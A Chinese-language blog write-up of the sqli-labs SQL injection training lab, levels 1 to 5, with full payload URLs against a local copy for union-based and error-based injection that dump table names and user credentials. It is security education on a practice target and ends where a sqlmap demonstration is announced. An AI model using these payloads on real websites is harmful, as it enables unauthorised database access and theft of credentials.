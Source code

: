 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      sqli-labs做题记录               # 标题 
subtitle:   Basic Challenges #副标题
date:       2019-08-15              # 时间
author:     Von                      # 作者
header-img: img/post-bg-mma-5.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SQL

---
```


# 前言
这几天也算是为了记录自己的成长过程来更新sqli-labs的做题记录。不知道能不能更完，毕竟总共有75关。不管怎么样，努力做到不咕吧。  
受限于篇幅设置，我对于每一关的原理肯定没有办法讲得特别详细，但我会尽量讲得通俗易懂，并且给出相应的参考文章。  
同时，对于类型相同的题目，我尽量给出不同的解法，来充实，提高自己。  

# Less-1

这题的考点是union联合查询注入。
对于这种类型，我推荐小白可以去看看这两篇文章。  
[文章1](https://zhuanlan.zhihu.com/p/22397455)      [文章2](https://zhuanlan.zhihu.com/p/22397620)   
我们先来判断注入类型。  
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=2 --+
```
经这两者判断，第一种传入网站显示正常，第二种传入网站显示不正常。可以看出我们的语句已经被执行。因此说明是单引号类型注入。
先判断字段数。依次递增order by 后面的数值。
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 2 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 4 --+
```
发现3时不报错,而4时报错，所以字段数是3。  
接下来用联合查询判断显示位。首先我们要让id变成一个不存在的值以便显示出来的值都是union语句执行的结果。在这里我们使用100。
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,3 --+
```
![](http://VonLYC.github.io/img/blog9-1.png)
可以看出,显示位为2和3。接下来便是常规操作：
```
爆库:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,database() --+
爆表:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
爆字段:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' --+
爆值:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,group_concat(username,0x3a,password,0x3c2f62723e) from security.users --+
```
至此，一次sql注入便完成了。

# Less-2
这道题和上面那道其实很类似。
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1 and 1=1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1 and 1=2 --+
```
第一种传入网站显示正常，第二种传入网站显示不正常。可以看出我们的语句已经被执行。因此说明是数值类型注入。  
之后的注入类型与Less-1雷同(仅需把单引号去掉而已)。不再赘述。

# Less-3
我们先传入id=1',可以得到这样的报错信息。
```
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```
![](http://VonLYC.github.io/img/blog9-2.png)
由此看出，我们需要闭合').
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1') and 1=1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1') and 1=2 --+
```
经同上面的判断，可以看出代码已被执行。之后的注入过程雷同Less-1.

# Less-4
我们传入id=1"，可以得到这样的报错信息。
```
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1  
```
![](http://VonLYC.github.io/img/blog9-3.png)
由此看出，我们需要闭合")。之后的过程类似Less-1.

---
由此看出，这四题主要区别就是在闭合符号的区别，实际应用中我们一方面可以通过报错信息来判断需要闭合的符号。也可以采用burp suite跑字典来进行Fuzz。

# Less-5
经过测试，该题没有显示位。故不能再使用union联合注入。应该考虑布尔盲注，延时注入和报错注入。由于此题存在报错反馈，于是我们采取报错注入。关于报错注入，可以看看我的这篇博客  [网址](http://www.v0n.top/2019/08/12/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/)  

```
爆库:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((database()),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```
需要注意的是，输出的结果末端带有一个1，这个1是floor报错语句中输出的也一部分（无论输出什么结果，都会有这个1）。我们无视它就可以了。
```
爆表:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database()),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```
在爆表的过程中发现它会爆出错误。
![](http://VonLYC.github.io/img/blog9-3.png)
这里发现页面提示我输出信息超过一行，所以我们要采用limit语句来控制输出。于是有：
```
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 2,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 3,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```
```
爆字段:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
爆值:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select concat(username,0x3a,password) from security.users limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
根据limit不断递增即可得到全部值。
```
这道题也可以采用布尔盲注(当然延时注入也可以，只不过延时注入我觉得比较高级一些，在下面的题目再讲）
布尔盲注是通过界面的变化来判断语句的执行结果(例如本题的you are in)。但是纯手工注入一般极其耗时(我当时有一次注了一个小时还没注完)  
因此我们一般使用python脚本/burp suite/sqlmap来进行注入。  
我在这里演示一种最简单的sqlmap法(懒。。。。）  







